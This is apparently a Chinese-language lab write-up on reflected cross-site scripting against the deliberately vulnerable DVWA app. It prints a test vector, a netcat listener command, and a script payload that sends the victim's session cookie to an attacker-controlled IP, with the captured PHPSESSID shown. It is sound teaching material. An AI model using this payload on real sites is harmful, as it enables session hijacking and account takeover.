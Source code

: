 ## 跨站脚本技术XSS(Cross-Site Scripting)
1. 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
2. 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 攻击流程
1. 漏洞侦测
    - DVWA Security的安全级别设置为low
    - XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
2. 攻击环境配置与Payload(有效载荷)构建
    - Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
    - `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
    - Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
3. 结果观测
    - **浏览器端：**页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
    - **攻击机终端：**切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
    - **结论：**`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
      <img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />  
## 总结
1. `connect to [192.168.174.129] from ...`说明一个连接请求从受害者发送到了netcat
2. `GET /?cookie=security=low;%20PHPSESSID=129f6e5a4c8cbd494411abc173bb2512 HTTP/1.1`，`GET /?cookie=...`是构造的Payload`document.location=...`产生的效果，`PHPSESSID=...`是用户的**会话凭证**，拥有此，攻击者可在不知道用户名和密码的情况下，冒充此用户登录网站
